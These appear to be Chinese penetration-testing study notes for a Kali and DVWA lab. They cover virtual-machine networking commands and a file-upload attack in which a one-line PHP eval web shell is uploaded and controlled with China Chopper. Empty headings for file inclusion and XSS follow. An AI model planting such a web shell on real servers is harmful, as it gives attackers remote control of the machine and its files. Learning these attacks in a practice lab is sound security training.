


# 1. 环境

## 1.1 Kali账户:

username: kali

password: kali

## 1.2 联网方式：

* NAT

  

  里面有个虚拟交换机，kali路由到虚拟交换机，然后在经物理网卡到外部。kali的ip和win系统的ip不一样。

  在kali中：

  ````bash
  ip a   #可查看ip信息，类似ifconfig
  ````

  

  ```bash
  ip r   # 可列出路由表，该主机走的路由信息
  ```

  

  我们只能访问别人。

* 桥接

  桥接则没有了内部交换机，虚拟机中系统的ip和主机的ip一样,地位同等。

  ```bash
  dhclient -r eth0  # 释放网卡eth0的ip  -r:-release
  
  dhcient -v eth0  # 重新获取eth0网卡的ip
  ```

  我们可以访问别人，别人也可以访问我们。


# 2. 文件上传渗透与防御

DVWA:  username: admin , password: admin


一句话木马：

shell.php

```php
<?hph @eval($_POST['chopper']);?>
```

文件上传


复制地址：http://192.168.64.129/dvwa/hackable/uploads/shell.php  在中国菜刀中打开 密码为chopper


右击文件管理：



就可以浏览服务器整个文件：


# 3. 文件包含渗透攻击与防御

本地文件包含LFI

远程文件包含RFI


# 3. XSS跨站脚本攻击

Cross Site Script

攻击的是客户端





